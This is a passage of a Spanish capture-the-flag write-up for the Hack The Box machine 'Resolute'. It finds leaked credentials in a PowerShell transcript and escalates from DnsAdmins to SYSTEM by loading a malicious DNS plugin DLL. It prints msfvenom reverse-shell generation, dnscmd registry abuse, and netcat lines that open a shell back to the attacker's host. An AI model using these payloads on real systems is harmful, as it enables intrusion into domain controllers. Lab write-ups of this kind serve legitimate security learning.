Recordemos que existe el servicio `WinRM` (que nos permite jugar con tareas administrativas) y para él hay una herramienta muy linda llamada [evil-winrm](https://github.com/Hackplayers/evil-winrm), ella nos permite obtener una **PowerShell** en el sistema siempre y cuando tengamos credenciales válidas, intentemos usarla:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_evilWinRM_melanieSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAMOOOOOOOOOOOOO, tamos dentroooooooooooowowowowoiqwjrasdkfjkalñd

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_patricioOH.gif" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

s1g4m0s...

...

# Movimiento lateral : Melanie -> Ryan [#](#creds-pstranscript) {#creds-pstranscript}

Recorriendo algunas carpetas del sistema vemos una oculta en la raíz: `PSTranscripts`:

```powershell
*Evil-WinRM* PS C:\> ls -force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
d--h--        12/3/2019   6:32 AM                PSTranscripts
...
```

Su nombre es llamativo, ya que habla de scripts, entremos y veamos que hay:

```powershell
*Evil-WinRM* PS C:\PSTranscripts> ls -force -recurse

    Directory: C:\PSTranscripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

    Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```

Un directorio `20191203` y dentro un objeto `.txt`, veamos ese archivo:

```powershell
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
...
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4c123!
...
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Out-String): "Out-String"
>> ParameterBinding(Out-String): name="InputObject"; value="The syntax of this command is:"
cmd : The syntax of this command is:
At line:1 char:1
+ cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4c123!
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo          : NotSpecified: (The syntax of this command is::String) [], RemoteException
+ FullyQualifiedErrorId : NativeCommandError
...
...
**********************
Windows PowerShell transcript start
...
...
```

Es un archivo que uso `Ryan` para registrar todo lo que escribía mientras efectuaba el mapeado del directorio `\\fs01\backups` en `X:`, hay dos cosas interesantes, que escribió mal el comando (aunque lo hubiera ejecutado bien también tendríamos lo otro curioso 😏) y que uso sus credenciales así como si nada y pues nos dejó un historial to lindo.

* [Registrar a fichero de log la línea de comandos de PowerShell (Transcript en PowerShell)](https://www.eltallerdesharepoint.com/net/registrar-a-fichero-de-log-la-linea-de-comandos-de-powershell-transcript-en-powershell/).

Sabemos que `Ryan` es un usuario del `AD, pero no si también existe en el sistema, validemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_melanieSH_dirUsers_RYANfound.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Listones, si existe, entonces probemos a obtener una nueva **PowerShell** pero ahora como él:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_evilWinRM_ryanSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

OJITO, tamos dentro del sistema pero ahora como el usuario `Ryan` (:

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

En su escritorio hay una nota:

```powershell
*Evil-WinRM* PS C:\\Users\ryan\Desktop> type note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```

Jmmmm... Podemos interpretarlo como un ¿backup?, que da igual si cambiamos algo, ¿en un minuto volverá a quedar como antes? Investiguemos...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_computerANDfireALLfine.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

Después de un tiempo perdido, volví atrás y con un simple comando ya nos encaminamos:

```powershell
*Evil-WinRM* PS C:\> whoami /all
...
...
GROUP INFORMATION
-----------------

Group Name             Type    SID                                            Attributes
====================== ======= ============================================== ===============================================================
...
MEGABANK\Contractors   Group   S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins     Alias   S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
...
```

Vemos que estamos en dos grupos distintos a los normales, uno de ellos con un nombre llamativo: `DnsAdmins`, si buscamos info sobre él en internet lo primero que encontramos son formas de escalar privilegios usándolo 😮

* [Feature, not bug: DNSAdmin to DC compromise in one line](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83).
* [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2).
* [Windows Privilege Escalation: DnsAdmins to DomainAdmin](https://www.hackingarticles.in/windows-privilege-escalation-dnsadmins-to-domainadmin/).
* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

Antes de explotar esta locura, recorramos un poco el "porque" del ataque...

Según [Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) por default los controladores de dominio (DC) también son servidores **DNS**, el tema es que eso expone al **DC** a ataques relacionados con servidores **DNS** :O

Únicamente los usuarios que estén en los grupos ***DnsAdmins, Domain Admins, Enterprise Admins, Administrators and ENTERPRISE DOMAIN CONTROLLERS*** tienen acceso al control/mantenimiento/gestion/actualización de un servidor **DNS** (que como dijimos antes, usualmente son **DC**s). Una vez dentro se pueden administrar zonas del **DNS**, redireccionamiento de puertos, logs, temas de la caché, objetos del servidor y de registros (etc.). Este último es interesante, ya que podemos escribir información adicional en el servidor **DNS** (:

Listones, nosotros estamos en uno de esos grupos, específicamente en `DnsAdmins`. Entonces para lograr la explotación debemos, cargar una **DLL** (librería dinámica) maliciosa en el servidor **DNS** (que esta siendo ejecutado como **SYSTEM, ya que por lo general el servidor es un **DC**).

💌 ***"Las `DLL (Dynamic Link Library)`, son fragmentos de código que se cargan bajo demanda por parte del sistema operativo durante la ejecución de una aplicación."*** [elladodelmal](https://www.elladodelmal.com/2020/07/dll-injection-como-hacer-hacking-en.html).

O sea, librerías que tiene por default (o no 😈) el sistema y son necesarias para ejecutar una aplicación.

En términos generales hay dos maneras de generar la ***DLL maliciosa***, una es con ayuda de `msfvenom` y la otra es construir nosotros mismos las instrucciones de la **DLL**, vamos a hacerlo de las dos maneras, pero dejaremos la creación manual de la **DLL** como aprendizaje para el final...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_computertrash.gif" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>
  
Así que juguemos con `msfvenom`...

...

Los pasos necesarios para la explotación son estos (siguiendo [este](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) y [este post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)):

<span style="color: yellow;">1. </span>Generamos la **DLL** maliciosa con `msfvenom`:

```bash
❱ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4433 -f dll -o sisisi.dll
❱ file sisisi.dll 
sisisi.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
```

<span style="color: yellow;">2. </span>Nos ponemos en escucha por **netcat** (para recibir la petición que hace la DLL y generar la Shell):

```bash
❱ nc -lvp 4433
```

<span style="color: yellow;">3. </span>Compartimos una carpeta donde esté la DLL generada, esto con ayuda de **SMB** (o **responder**):

```bash
❱ smbserver.py smbFolder $(pwd) -smb2support
```

La carpeta se llama `smbFolder`, le pasamos la ruta actual (el resultado del comando `pwd`) y le damos soporte a la versión 2 de samba.

<span style="color: yellow;">4. </span>Ahora agregamos la **DLL** al servicio **DNS**:

Validamos antes como esta el registro (se acuerdan lo que hablamos antes de que podíamos escribir cositas, entre ellas registros :P) que modificaremos:

```powershell
*Evil-WinRM* PS C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

```powershell
*Evil-WinRM* PS C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
Property ServerLevelPluginDll does not exist at path HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\.
...
```

Exacto, aún no lo hemos creado :P

Lo creamos diciendo que la **DLL** a agregar esta siendo compartida en una carpeta de **SMB**:

(*También podríamos subir la **DLL** al sistema y en vez de la carpeta compartida pasarle la ruta absoluta hacia ella*)

```powershell
*Evil-WinRM* PS C:\> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\sisisi.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Y si ahora validamos la existencia del registro:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ryanSH_registryDNSexists.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Ya existe, peeeeerfectisimo. 

Como último paso debemos "reiniciar" el servicio **DNS** para que tome los cambios. Ejecutara el servidor **DNS**, leerá los registros relacionados, tomara el que llama la **DLL** y por lo tanto la ejecutara (:

<span style="color: yellow;">5. </span>Reiniciamos el servidor **DNS** para que ejecute nuestra **DLL**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_ryanSH_StopStartDNS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Una vez iniciamos el servidor **DNS** nos llega la petición a nuestra carpeta compartida buscando la **DLL**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_smbserver_requestsDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si esperamos un rato pensaremos que no funciono, peeeeeeeero esperamos un ratico más yyyyyyyyyyy...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_done.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

PERO CLARO QUE SIIIIIIIII, obtenemos nuestra **Reverse Shell** como el usuario `nt authority\system` (diosito) del sistema (: veamos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220flags.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y listos, eso ha sido todo por esta máquina ✈️ Si quieres ver como generar la **DLL** manualmente sigue conmigo e.e

...

# Post-PrivEsc: Creamos <u>DLL</u> manualmente [#](#manual-dll) {#manual-dll}

Buscando en internet `example dll dns github` encontramos 2 llamativos:

1. [https://github.com/dim0x69/dns-exe-persistance](https://github.com/dim0x69/dns-exe-persistance).
2. [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL).

Usaremos los dos para lograr la ejecución de comandos:

🅰 [Escalada generando **DLL** con **dns-exe-persistance**](#repo-dns-exe-persistance).<br>
🅱️ [Escalada generando **DLL** con **DNSAdmin-DLL**](#repo-dnsadmin-dll).

...

## Generamos la <u>DLL</u> usando <u>dns-exe-persistance</u> [📌](#repo-dns-exe-persistance) {#repo-dns-exe-persistance}

▶️ [https://github.com/dim0x69/dns-exe-persistance](https://github.com/dim0x69/dns-exe-persistance).

Revisando los post que hemos usado vemos que el siguiente tiene una estructura prácticamente igual al objeto `Win32Project1.cpp` del **primer recurso**, por lo que podemos pensar que o lo hizo él o se guio de ahí (o viceversa, el del repo se guio del post, no lo sabemos):

* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise).

Nos centraremos en el **primer recurso**, después será más rápido usar el **segundo**...

La estructura base del `DLL` (creo que de cualquier DLL) es esta (exactamente igual en los dos proyectos de arriba):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_git_structureDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Bien, la parte que nos interesa (y con la que juega el creador del post) es la que esta en al archivo `Win32Project1.cpp`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_git_structureDLL_PluginDNS.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Si nos fijamos la primera función se llama `DnsPluginInitialize`, lo que nos puede indicar que eso es lo que se ejecutara una vez el plugin sea iniciado, por lo queeeeeee ahí debe ir nuestra matralla. El post con el que venimos trabajando y [este](https://vbscrub.com/2020/01/11/dns-server-plugin-dll-implementation-dnsplugininitialize-etc/) nos lo confirman.

Listooos, apoyados de nuevo en el post vemos que implementa en esa función la instrucción `system()` para que le ejecute el binario `shell.cmd` de la raíz (que puede contener ya sea una reverse shell o lo que sea).

Pues aprovechemos ese conocimiento para implementar en el archivo `Win32Project1.cpp` una línea con la función `system()`, pero como prueba que nos haga un `ping` hacia nuestra máquina, con lo cual si obtenemos la traza, sabemos que estamos ejecutando comandos en el sistema por medio de la `DLL`.

Nos movemos a una VM **Windows**, clonamos el repo, abrimos el objeto `Win32Project1.sln` (usaré [Visual Studio](https://visualstudio.microsoft.com/es/) para abrir el proyecto, modificarlo y compilarlo) y nos posicionamos en el archivo `Win32Project1.cpp`.

Ahora agregamos la línea con la instrucción `system()`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_win32projCPP_systemPING.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Lo siguiente será compilar el proyecto para que nos genere el archivo `.dll`. 

Arriba cambiamos `Debug` por `Release`, le decimos que la arquitectura es de `64 bits` y finalmente damos clic en `Compilar` y `Recompilar solución`:

```c++
1>Generando código
1>0 of 4 functions ( 0.0%) were compiled, the rest were copied from previous compilation.
1>  0 functions were new in current compilation
1>  0 functions had inline decision re-evaluated but remain unchanged
1>Generación de código finalizada
1>Win32Project1.vcxproj -> C:\dns-exe-persistance\dns-plugindll-vcpp\x64\Release\Win32Project1.dll
========== Compilar: 1 correctos, 0 incorrectos, 0 actualizados, 0 omitidos ==========
```

Peeerfecto, no hay errores y se nos generó el archivo `Win32Project1.dll`, así que lo siguiente es movernos la librería (`DLL`) a nuestro sistema para posteriormente jugar con **SMB**, `tcpdump` para estar escuchando por si llegan paquetes `ICMP` (recordemos que `ping` envía ese tipo de paquetes), **dnscmd** para agregar el plugin y el reinicio del servidor **DNS**:

Ejecutamos:

```bash
❱ file Win32Project1.dll 
Win32Project1.dll: PE32+ executable (DLL) (GUI) x86-64, for MS Windows
❱ smbserver.py smbFolder $(pwd) -smb2support
❱ tcpdump -i tun0 icmp
```

```powershell
*Evil-WinRM* PS C:\> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\Win32Project1.dll
*Evil-WinRM* PS C:\> sc.exe stop dns
*Evil-WinRM* PS C:\> sc.exe start dns
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_tcpdump_ICMP_RCEdone.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

VAAAAAaaaaAAmo0000000000000oo nos llega la traza `ICMP`, por lo taaaaaaaaaaaaaaaaanto, el servidor **DNS** esta ejecutando nuestro plugin y por lo consiguiente nuestro plugin ejecuta el `ping` (((((:

AHORAAAAAAAAAA!! Digámosle que nos genere una **reverse Shell**, pero en lugar de pasarle el binario pasémosle un archivo `.bat` que será el que contenga toooooooodos los comandos que queremos ejecutar, en nuestro caso el llamado al `nc.exe` o a un binario generado con `msfvenom`.

El archivo `.cpp` quedaría así:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_win32projCPP_systemBAT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y en nuestro sistema creamos el objeto `hola.bat` con el llamado al binario `nc.exe` que también estaremos compartiendo en la misma carpeta `smbFolder`:

```bash
❱ cat hola.bat
\\10.10.14.8\smbFolder\nc.exe 10.10.14.8 4433 -e cmd.exe
```

Lo subimos a la máquina y nos ponemos en escucha:

```bash
❱ nc -lvp 4433
```

Hacemos todo lo de antes yyyyyyyyy en nuestro listeneeeeeeeeeeeeer:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_dnsEXEpersistance.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Increibleeeeeeeeeeeeeee!! Cualquier comando que quisiéramos ejecutar lo pondríamos dentro de `hola.bat` y ya tendríamos RCE como diosito. Veamos rápidamente la otra manera...

...

## Generamos la <u>DLL</u> usando <u>DNSAdmin-DLL</u> [📌](#repo-dnsadmin-dll) {#repo-dnsadmin-dll}

▶️ [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL).

Este recurso es mucho más sencillo, él simplemente busca un archivo llamado `command.txt` en la ruta `C:\Windows\Temp`, parsea su información y cada línea la toma como comandos que serán ejecutados por la instrucción `system()`.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220win_VS_DNSAdmin_DLL_commandTXT.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Po listo, no tenemos que cambiar nada del proyecto, compilamos de la misma forma que antes y nos genera la librería `DNSAdmin-DLL.dll`.

```c++
1>------ Operación Recompilar todo iniciada: proyecto: DNSAdmin-DLL, configuración: Release x64 ------
1>stdafx.cpp
1>dllmain.cpp
1>DNSAdmin-DLL.cpp
1>   Creando biblioteca C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.lib y objeto C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.exp
1>Generando código
1>Previous IPDB not found, fall back to full compilation.
1>All 4 functions were compiled because no usable IPDB/IOBJ from previous compilation was found.
1>Generación de código finalizada
1>DNSAdmin-DLL.vcxproj -> C:\DNSAdmin-DLL\DNSAdmin-DLL\x64\Release\DNSAdmin-DLL.dll
========== Recompilar todo: 1 correctos, 0 incorrectos, 0 omitidos ==========
```

Generamos el archivo `command.txt` de nuevo con la reverse shell generada con **nc**, pero para cambiar, ponemos el puerto `4434` (a ver que e.e):

```bash
❱ cat command.txt 
\\10.10.14.8\smbFolder\nc.exe 10.10.14.8 4434 -e cmd.exe
```

Subimos a la ruta `C:\Windows\Temp` y nos ponemos en escucha por el puerto `4434`, ahora ejecutamos:

```powershell
*Evil-WinRM* PS C:\Windows\Temp> dnscmd /config /serverlevelplugindll \\10.10.14.8\smbFolder\DNSAdmin-DLL.dll
*Evil-WinRM* PS C:\Windows\Temp> sc.exe stop dns
*Evil-WinRM* PS C:\Windows\Temp> sc.exe start dns
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220bash_SYSTEMrevSH_DNSAdminDLL.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Y LISTOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO...

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/resolute/220google_gif_girlPChappy.gif" style="display: block; margin-left: auto; margin-right: auto; width: 60%;"/>

También obtenemos la reverse shell (: Así que tenemos 3 opciones, personalmente me gusta la segunda, ya que es muuuuuuuuuy sencilla de leer y saber que estamos haciendo.

Así que ahora si, nos vimoooooooooooooooooos...

...

¡Muy linda máquina eh! Me dan un poco de cosa los **DC**s, pero esta me quito muuuuuuuuuucho del "miedo" ante ellas, la escalada es brutal.

Bueeeeeno, hasta acá nos leemos 😥 cuídate y como sieeeempreeeeee: A R O M P E R T O D O ! ! !